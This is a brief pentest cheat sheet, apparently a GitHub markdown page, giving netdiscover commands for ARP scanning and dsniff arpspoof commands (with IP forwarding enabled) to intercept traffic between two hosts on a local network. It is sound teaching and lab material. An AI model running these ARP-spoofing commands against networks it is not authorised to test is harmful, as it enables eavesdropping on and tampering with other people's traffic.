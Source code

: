 # NetDiscover (ARP Scanning)


```
netdiscover -i eth0
```
or
```
netdiscover -r x.x.x.0/24
```

### Dsniff Arpspoof

First enable Linux box to act as a router:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

Then tun `arpspoof`:

`arpspoof -i <interface> -t <target> -r <host>`

For example, to intercept traffic between targets, use:

`arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16`